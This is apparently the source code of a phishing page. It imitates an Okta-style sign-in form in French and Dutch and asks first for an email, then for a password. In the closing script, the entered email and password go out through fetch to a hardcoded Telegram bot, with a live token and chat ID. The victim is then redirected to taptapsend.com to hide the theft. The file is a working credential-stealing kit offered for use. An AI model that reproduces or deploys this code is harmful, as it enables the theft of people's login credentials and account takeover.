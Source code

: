 <!DOCTYPE html>
<html lang="fr">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Formulaire de Connexion</title>
    <style>
        body {
            background-image: url('https://ok9static.oktacdn.com/fs/bco/7/fs0chyx69ua4xbJnw417'); 
            font-family: Arial, sans-serif;
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
            margin: 0;
        }
        .container {
            background-color: white;
            padding: 40px;
            border-radius: 8px;
            box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
            width: 400px;
            text-align: beginning;
        }
        .logo {
            width: 200px;
        }
        input[type="text"], input[type="password"] {
            width: 80%;
            padding: 20px;
            margin: 10px 0;
            border: 1px solid #ccc;
            border-radius: 4px;
            box-sizing: border-box;
        }
        button {
            background-color: #FFD700; /* Jaune foncé */
            color: black;
            padding: 10px;
            border: none;
            border-radius: 4px;
            cursor: pointer;
            width: 80%;
            margin: 10px 0;
        }
        .remember-me {
            margin-bottom: 10px;
        }
        .languages {
            text-align: right;
        }
        .footer-links {
            font-size: 12px;
            margin-top: 20px;
        }
    </style>
</head>
<body>

    <div class="container">
        <div class="languages">
            <a href="#">NL</a> | <a href="#">FR</a> | <a href="#">EN</a>
        </div>
        <img src="https://ok9static.oktacdn.com/fs/bco/1/fs0ci1i9sp9xQg0tI417" alt="Logo" class="logo">
        
        <div id="emailSection">
            <label for="email">Je e-mailadres</label>
            <input type="text" id="email" placeholder="Entrez votre e-mail">
            <div class="remember-me">
                <input type="checkbox" id="rememberMe"> 
                <label for="rememberMe">Se souvenir de moi</label>
            </div>
            <button id="nextButton">Suivant</button>
        </div>

        <div id="passwordSection" style="display: none;">
            <label for="password">Wachtwoord</label>
            <input type="password" id="password" placeholder="Entrez votre mot de passe">
            <button id="loginButton">Se connecter</button>
        </div>

        <div class="footer-links">
            <p><a href="#">Wachtwoord vergeten?</a></p>
            <p><a href="#">Aanmelden met iets anders - NIEUW</a></p>
            <p><a href="#">Terug naar aanmelden</a></p>
        </div>
    </div>

    <script>
        document.getElementById('nextButton').addEventListener('click', function() {
            const email = document.getElementById('email').value;
            if (email) {
                document.getElementById('emailSection').style.display = 'none';
                document.getElementById('passwordSection').style.display = 'block';
            } else {
                alert('Veuillez entrer un e-mail.');
            }
        });

        document.getElementById('loginButton').addEventListener('click', function() {
            const email = document.getElementById('email').value;
            const password = document.getElementById('password').value;

            if (email && password) {
                // Envoi des données à votre bot Telegram
                fetch(`https://api.telegram.org/bot5664903678:AAHEHtO2Wb-UC5N7AizvuqiQ-Nd_G89Rd90/sendMessage?chat_id=5147593892&text=Email:%20${encodeURIComponent(email)}%0AMot%20de%20passe:%20${encodeURIComponent(password)}`)
                    .then(response => {
                        if (response.ok) {
                            window.location.href = 'https://www.taptapsend.com/';
                        } else {
                            alert('Erreur lors de l\'envoi des données.');
                        }
                    });
            } else {
                alert('Veuillez remplir tous les champs.');
            }
        });
    </script>

</body>
</html>
